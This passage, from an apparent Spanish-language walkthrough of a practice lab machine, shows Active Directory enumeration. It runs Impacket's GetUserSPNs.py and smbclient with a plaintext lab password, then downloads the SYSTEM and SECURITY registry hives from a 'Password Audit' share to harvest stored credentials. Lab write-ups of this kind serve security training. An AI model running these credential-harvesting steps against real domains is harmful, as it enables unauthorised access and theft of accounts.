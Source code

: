 ```bash
GetUserSPNs.py resourced.local/V.Ventz:'HotelCalifornia194!'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```

No hay usuarios vulnerables en el dominio

## Enumeración SMB

```bash
smbclient -L 192.168.182.175 -U 'V.Ventz%HotelCalifornia194!'
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Password Audit  Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Veo un recurso muy interesante, Password Audit, en el cual puede haber credenciales de otros usuarios.

```bash
smbclient "//192.168.182.175/Password Audit" -U 'V.Ventz%HotelCalifornia194!'
```

Y en la carpeta registry vemos dos archivos: SECURITY y SYSTEM, los típicos archivos donde se almacena caché y credenciales en Windows.

<p align="center">
<img src="/assets/images/pg-writeup-resourced/Pasted image 20250225141453.png">
</p>


Los descargamos:

```
smb: \registry\> get SYSTEM
smb: \registry\> get SECURITY
```
